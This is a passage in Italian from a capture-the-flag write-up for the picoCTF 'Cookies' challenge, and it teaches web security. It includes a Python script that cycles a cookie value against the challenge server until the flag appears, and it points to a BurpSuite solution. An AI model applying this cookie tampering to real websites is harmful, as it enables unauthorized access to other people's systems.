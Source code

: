# Cookies
*Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)*
<br>

## Soluzione 1
Inserendo *"snickerdoodle"* come suggerito dalla casella di testo, la pagina setta un cookie con nome **name** e valore **0**. Cambiando il valore di questo cookie la pagina ci ritorna degli output differenti.

Possiamo scrivere uno script python nel quale **il valore del cookie viene cambiato sequenzialmente** e ci vengono ritornati i differenti output.

```python
import requests

url = "http://mercury.picoctf.net:21485/check"

for i in range(0, 25):
    cookie_val = str(i)
    cookie_send = {'name': cookie_val}

    r = requests.get(url, cookies = cookie_send)
    ris = r.text.split("<p style=\"text-align:center; font-size:30px;\"><b>")[1].split("</b></p>")[0]

    print(f"Val utilizzato {i}, risultato: {ris}")
```

Vediamo che cambiando in **18** il valore del cookie ci viene ritornata la flag. 

*Guarda lo script python nella cartella dell'esercizio*

## Soluzione 2
È possibile risolvere questa challenge mediante **BurpSuite**.

*Consulta il [writeup](https://github.com/xnomas/PicoCTF-2021-Writeups/blob/main/Cookies/README.md)*

---
- [Soluzione mediante BurpSuite](https://github.com/xnomas/PicoCTF-2021-Writeups/blob/main/Cookies/README.md)
